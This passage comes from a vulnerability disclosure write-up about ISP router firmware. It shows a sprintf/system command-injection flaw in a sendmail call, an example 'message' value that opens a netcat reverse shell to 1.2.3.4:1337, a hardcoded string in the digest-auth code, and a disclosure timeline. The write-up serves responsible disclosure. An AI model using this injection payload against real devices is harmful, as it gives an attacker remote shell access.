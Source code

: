 <pre>
  sprintf(cmd, "echo \"%s.\" | sendmail %s ", message, Email);
  system(cmd);
</pre>

`Email` is not controlled by the attacker and seems to come from the server's config. But we couldn't quickly identify if the `message` parameter can be controlled. If it is, then an attacker can run arbitrary code on the server under the same acs user session, example:

<pre>
message = "aaa\"; nc 1.2.3.4 1337 -e /bin/bash ; echo \"aaa"
</pre>


# Easter egg

Some strange string was found inside the MD5 digest authentication implementation:

<pre>
iVar2 = find_string("qop", 0);
if (iVar2 == -1)
{
      serial = md5(HA2);
      __src = md5(HA1);
      sprintf(cpy_getParamValue, "%s:%s:%s", __src, "T.Sargsyan-S.Gharagyozyan", serial);
      puts("\n 3  ");
}
</pre>

If you know who T.Sargsyan and S.Gharagyozyan are - share this article and spread the word.


# Timeline

<pre>
2020-11-01 - initial research started and some findings logged
2020-11-22 - Cgates made a press release about a "sophisticated cyber attack" against them
2020-11-23 - initial raw findings sent to Cgates to prevent possible risk
2020-12-28 - a reminder about the disclosure's deadline sent
2020-12-29 - got a reply from Cgates asking "who da heck you are and what do you want"
2020-12-29 - sent an explanation who the white hats were
2020-12-30 - got a PGP key from Cgates
2021-01-04 - sent a detailed report
2021-01-24 - got a confirmation from Cgates that all the items had been addressed
2021-02-22 - full disclosure
2021-08-20 - [https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10239](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10239)
</pre>
